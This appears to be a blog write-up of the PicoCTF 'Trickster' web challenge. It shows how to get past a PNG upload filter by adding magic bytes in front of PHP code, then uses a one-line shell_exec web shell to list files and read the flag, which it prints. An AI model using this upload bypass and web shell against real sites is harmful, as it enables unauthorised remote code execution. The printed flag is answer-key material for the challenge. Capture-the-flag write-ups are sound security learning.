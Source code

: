 ```yaml
---
layout: post
title: "Trickster"
date: 2025-07-30
categories: [PicoCTF, webexploitation]
tags: [picoctf,webexploitation,Medium]
---
```

# 🃏 Trickster – PicoCTF

## 📘 Challenge Description

**I found a web app that can help process images: PNG images only!**

---
## 🛠️ Step-by-Step Solution
### 1. 🔍 Explore the Website

- Open the website and try uploading some files.
- Rename a `.php` file to something like `test.png.php` and try uploading it.
- It still fails — the site checks more than just the file extension.

---
### 2. 🧼 Check the Source Code

- Use `Ctrl + U` or right-click → "Inspect" → "Network/Elements".
- Nothing useful found directly.

---
### 3. 🤖 Look for Hidden Directories

Visit:`/robots.txt`
You’ll find:
`/information.txt`
`/uploads/`

---
### 4. 📄 Visit `/information.txt`
The file says:
Let's create a web app for PNG Images processing.

Requirements:
1. Allow users to upload PNG images
2. Check file extension (must be `.png`)
3. Validate magic bytes (hex: 50 4E 47)
4. Store the validated files securely

✅ This confirms the site is checking [**magic bytes**](https://docs.stairwell.com/docs/what-are-magic-bytes), not just the filename.

---
### 5. 🧪 Create a PHP File with PNG Header
Try uploading this PHP file named `vuln.png.php`:

```php
<?php echo phpversion(); ?>
```
But it fails: not a valid PNG image.
Now we’ll manually add the PNG magic bytes.

---
### 6. 🎩 Add PNG Magic Bytes Manually
To fool the server, prepend valid PNG bytes to the file.

```bash
echo -ne "\x89PNG\r\n\x1a\n" > vuln.png.php
echo "<?php echo phpversion(); ?>" >> vuln.png.php
```
Check it:
```bash
xxd vuln.png.php | head
```
Now the file starts with correct PNG magic bytes: **89 50 4E 47**

---
### 7. 📤 Upload the Modified File
Upload `vuln.png.php`.

Then visit:
`/uploads/vuln.png.php`

🎉 If you see the PHP version (like **8.3.x**), your code is executing!

---
### 8. 💻 Execute System Commands
Modify the file content to:
```php
<?php echo shell_exec($_GET[0]); ?>
```
Repeat the steps to add PNG header and upload the file again.

Visit:
```bash
/uploads/vuln.png.php?0=ls /var/www/html
```
You’ll see:
```bash
MQZWCYZWGI2WE.txt
index.php
instructions.txt
robots.txt
uploads
```
---
### 9.🏁 Read the Flag
To read the flag file:
`/uploads/vuln.png.php?0=cat /var/www/html/MQZWCYZWGI2WE.txt`

🎉 Flag displayed on screen!

**picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}**

---
## 🧠 Learning Outcomes from "Trickster"

1. Learned that websites check both file extension and content (magic bytes).
2. Discovered how to add PNG magic bytes to bypass upload filters.
3. Understood how to turn a PNG file into a PHP web shell.
4. Used `robots.txt` to find hidden directories and info.
5. Executed system commands using a PHP payload and `shell_exec()`.
6. Found how upload folders can be exploited if not secured properly.
7. Gained hands-on experience with file upload and remote code execution (RCE).

---










